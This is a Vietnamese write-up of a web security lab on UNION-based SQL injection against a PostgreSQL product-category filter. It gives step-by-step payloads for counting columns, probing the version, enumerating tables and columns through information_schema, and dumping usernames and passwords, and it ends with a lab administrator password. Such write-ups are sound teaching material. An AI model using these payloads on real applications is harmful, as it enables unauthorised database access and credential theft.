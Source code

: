 # Đầu bài cho biết:
- Ứng dụng có lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm.
- Kết quả truy vấn được trả về trong phản hồi của ứng dụng, cho phép sử dụng tấn công UNION.
- Ứng dụng có chức năng đăng nhập, và cơ sở dữ liệu chứa một bảng lưu trữ tên người dùng và mật khẩu.
- Hệ thống sử dụng cơ sở dữ liệu không phải Oracle.

# Yêu cầu:
- Xác định tên của bảng chứa thông tin người dùng và tên các cột của bảng đó.
- Truy xuất nội dung của bảng để lấy tên người dùng và mật khẩu của tất cả người dùng.
- Đăng nhập với tư cách người dùng administrator.

# Solution

- Dùng ` ORDER BY` để đếm số cột

`' ORDER BY 1--`

`' ORDER BY 2--`

`' ORDER BY 3--` => Lỗi

- Vậy là có 2 cột

- Xác định phiên bản

`' UNION SELECT version(), NULL-- `

(Từ cách dùng version như này thì xác định được là dung PostgreSQL)

- Sử dụng information_schema.tables để liệt kê tên tất cả các bảng

`' UNION SELECT table_name, NULL FROM information_schema.tables--`

(Kiếm information_schema.tables PostgreSQL trên mạng để tìm thì tìm đc tên cột là table_name)

- Kết quả trả về `users_dagdkt`, đây là tên bảng chứa thông tin người dùng

- Sử dụng `information_schema.columns` để liệt kê tên tất cả các cột trong bảng `users_dagdkt`

`' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_dagdkt'--`

(Tương tự như trên thì kiếm được bảng rồi thì kiếm tên cột)

- Kết quả trả về các tên cột: `password_vofxgd`, `username_yxxamz`, và `email`

- Sử dụng câu lệnh UNION để truy xuất tên người dùng và mật khẩu từ bảng `users_dagdkt`:

`'UNION SELECT username_yxxamz, password_vofxgd FROM users_dagdkt--`

- Kết quả nhận lại được:
administrator
0k75hb39t3qykxb1bftw
